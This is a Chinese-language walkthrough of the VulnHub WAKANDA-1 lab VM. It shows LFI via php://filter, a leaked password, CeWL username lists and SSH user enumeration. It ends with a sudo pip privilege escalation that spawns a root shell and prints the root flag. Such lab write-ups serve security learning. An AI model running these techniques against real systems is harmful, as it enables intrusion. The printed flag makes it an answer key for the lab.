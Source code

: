 ```yaml
---
title: VulnHub-WAKANDA-1
author: AmtuOrRF
date: 2022-02-12
categories: [vulnhub]
tags: [vulnhub]
---
```

*2022 年 2 月 11 日，星期五*
### Introduction
> 一个新的Vibranium市场将很快在暗网中上线。您的目标，获取包含矿井确切位置的根文件。

> 中级水平

> 标志：有三个标志（标志1.txt，标志2.txt，根.txt）

### Table of Content
- nmap
- [网站页面源代码注释,泄露传参](#1)
- [使用 PHP Filters 通过 LFI 查看 php 文件的内容](#2)
- 在 index.php 文件发现一个密码，但是没有用户名
- [使用CeWL工具 爬取网站页面,生成用户名字典](#使用CeWL工具爬取网站页面,生成用户名字典)
- 通过SSH枚举有效用户名(CVE-2018-15473)
- 滥用可写脚本, 300 秒执行一次.( /srv/.antivirus.py )
- 检查 sudoers，发现低可以运行 pip - Use GTFO Bin to get root

### 网站页面源代码注释-泄露传参

```bash
http://192.168.84.7/?lang=fr
```

### 使用PHP-Filters通过LFI查看php文件的内容
```bash
http://192.168.84.7/?lang=php://filter/read=convert.base64-encode/resource=index

# base64解密
echo "xxx"|base64 -d

# index.php 内的密码
$password ="Niamey4Ever227!!!" ;//I have to remember it
```

### 使用CeWL工具爬取网站页面,生成用户名字典
```bash
# 用户名字典
cewl http://192.168.84.7/ > user.txt
```

### 通过-SSH-枚举有效用户名-(CVE-2018-15473)
```bash
# 得到用户 mamadou
ssh mamadou@192.168.84.7 -p 3333

pass: Niamey4Ever227!!!
```
### 滥用可写脚本,300秒执行一次.(/srv/.antivirus.py)
```bash
# 服务器中还有另一个用户 devops

# 查找有关devops 的文件
find / -name 'devops' 2>/dev/null

# 找到一个，可写
'/srv/.antivirus.py'


# 文件是怎么运行的?
grep -Ri '.antivirus.py' /etc/ 2>/dev/null
```
### 检查sudoers,发现低可以运行 pip-UseGTFO-Bin-to get-root
```bash
sudo -l
# (ALL) NOPASSWD: /usr/bin/pip

echo "import os;os.system('/bin/bash')" > setup.py
sudo /usr/bin/pip install ./

cat root.txt
     _    _.--.____.--._
    ( )=.-":;:;:;;':;:;:;"-._
     \\\:;:;:;:;:;;:;::;:;:;:\
      \\\:;:;:;:;:;;:;:;:;:;:;\
       \\\:;::;:;:;:;:;::;:;:;:\
        \\\:;:;:;:;:;;:;::;:;:;:\
         \\\:;::;:;:;:;:;::;:;:;:\
          \\\;;:;:_:--:_:_:--:_;:;\
           \\\_.-"             "-._\
            \\
             \\
              \\
               \\ Wakanda 1 - by @xMagass
                \\
                 \\
    
    
    Congratulations You are Root!
    
    821ae63dbe0c573eff8b69d451fb21bc
	
```

*过程还有一些flag.txt文件*